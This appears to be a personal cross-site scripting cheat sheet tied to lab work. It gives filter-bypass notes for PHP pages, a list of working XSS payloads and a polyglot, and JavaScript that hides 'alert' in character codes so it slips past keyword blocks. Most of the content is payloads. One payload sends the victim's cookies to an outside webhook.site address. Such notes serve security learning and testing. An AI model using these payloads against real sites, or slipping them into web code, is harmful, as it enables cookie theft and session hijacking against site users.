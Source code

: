 # NOTES
   1. Whenever you try any payload for xss.
      1) If value is reflected in response.
      2) If any special characters are html encoded??
   2. What if script or any malicious word is blocked?
      1) There are multiple ways to execute javascript
      2) for eg
      3) in case we are allowed to paste link and it is referenced directly in a HREF tag then <a href="javascript:alert(1)"/>google</a> this payload can be used.
      4) div tag, img tag, and there are many tags who has javascript events loaded.
   3. What if alert is blocked and script is not blocked
      1) convert ascii value of alert and payload to string and paste it in eval, if script is not blocked ... very rare.
   4. What if, we can escape the js by single quotes and comment?
   5. What if, special characters are html encoded?
      1) Here, it is common in php to use htmlentities as encoding function.
      2) But, if we do not set ENT_QUOTES flag...function won't encode ' (single quotes) and we can use it to escape it.
   6. Sometimes,  developer used and trusted PHP_SELF which is the path provided by the user. 
      1) So, this time, if index.php is where response is reflected, try to do something like this -> /index.php/XSS_Payload
      2) Check the source code, if /index.php/1 is reflected in forms tag, then replace 1 with XSS_Payload

# Misc

    1. If HTTP-only flag is set, client side javascript script cannot access user cookies. It does not mean that cookies are hidden, it's just if XSS Attack is carried out, cookies won't be fetched. 

# Payloads I used
   ```
   <script>alert(1)</script>
   <script>eval("ale"%2B"rt(1)")</script>
   <script>prompt(1)</script>
   <Script>alert(1)</Script>
   <scr<script>ipt>alert(1)</scr</script>ipt>
   <a href="google.com" onmouseover="alert(1)">google</a>
   <a href="google.com" onmouseout="alert(1)">google</a>
   <a href="google.com" onmousemove="alert(1)">google</a>
   <a href="google.com" onclick="alert(1)">google</a>
   <a href="google.com" onClick="alert(1)">google</a>
   <a href="javascript:alert(1)"/>google</a>
   <img src="zzzz" onErRor="alert(1)"/>
   <div onmousemove="alert(1)" onmouseout="alert(1)"></div>
   "><script>alert(1)</script>//
   '><script>alert(1)</script>//
   "><script>alert(1)</script>
   /index.php/"><script>alert(1)</script>
   #<h1><script>alert('9a9ae151-0c35-4b79-92ff-ddbf76907027')</script></h1>
   #<script>document.write('<img src="webhook.site?c="'%2Bdocument.cookie%2B'"/>')</script>
   <script></script>
   ```

# Payloads from community
   ```
   1. jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e
   2. 
   ```

# Functions
   ```
   // --------------------------alert is blocked-----------------------------
   function convertor(num){
      return num.toString().split('').map(Number).map(n => (n || 10) + 64).map(c => String.fromCharCode(c)).join('');
   }

   function asciitochar(arr){
      xd = arr.map(c => String.fromCharCode(c)).join('')
      return xd;
   }

   function toascii(strs){
      xd = strs.split('').map(c => c.charCodeAt(c))
      return xd;
   }

   /* 1 - 49
   2 - 50
   3 - 51
   4 - 52
   5 - 53
   6 - 54
   7 - 55
   8 - 56
   9 - 57 */

   console.log(convertor(3))
   console.log(asciitochar([97, 108, 101, 114, 116, 40, 39, 57, 97, 57, 97, 101, 49, 53, 49, 45, 48, 99, 51, 53, 45, 52, 98, 55, 57, 45, 57, 50, 102, 102, 45, 100, 100, 98, 102, 55, 54, 57, 48, 55, 48, 50, 55, 39, 41]))
   console.log(toascii("'"))

   /* [57, 97, 57, 97, 101, 49, 53, 49, 45, 48, 99, 51, 53, 45, 52, 98, 55, 57, 45, 57, 50, 102, 102, 45, 100, 100, 98, 102, 55, 54, 57, 48, 55, 48, 50, 55] */

   // [97, 108, 101, 114, 116]
   /* [97, 108, 101, 114, 116, 40, 55, 42, 55, 41] */
   /* console.log(asciitochar()) */
   /* console.log(eval([97, 108, 101, 114, 116, 40, 55, 42, 55, 41].map(c => String.fromCharCode(c)).join('')) */
   /* console.log(eval([57, 97, 57, 97, 101, 49, 53, 49, 45, 48, 99, 51, 53, 45, 52, 98, 55, 57, 45, 57, 50, 102, 102, 45, 100, 100, 98, 102, 55, 54, 57, 48, 55, 48, 50, 55].map(c => String.fromCharCode(c)).join(''))) */

   /* [NaN, 97, NaN, 97, 101, NaN, NaN, NaN, 45, 48, 99, NaN, NaN, 45, NaN, 98, NaN, NaN, 45, NaN, NaN, 102, 102, 45, 100, 100, 98, 102, NaN, NaN, NaN, 48, NaN, 48, NaN, NaN] */

   /* console.log(eval([97, 108, 101, 114, 116, 40, 39, 57, 97, 57, 97, 101, 49, 53, 49, 45, 48, 99, 51, 53, 45, 52, 98, 55, 57, 45, 57, 50, 102, 102, 45, 100, 100, 98, 102, 55, 54, 57, 48, 55, 48, 50, 55, 39, 41].map(c => String.fromCharCode(c)).join(''))) */

   console.log(eval([97, 108, 101, 114, 116, 40, 39, 57, 97, 57, 97, 101, 49, 53, 49, 45, 48, 99, 51, 53, 45, 52, 98, 55, 57, 45, 57, 50, 102, 102, 45, 100, 100, 98, 102, 55, 54, 57, 48, 55, 48, 50, 55, 39, 41].map(c => String.fromCharCode(c)).join('')))

   // --------------------------------------------------------------------------
   ```
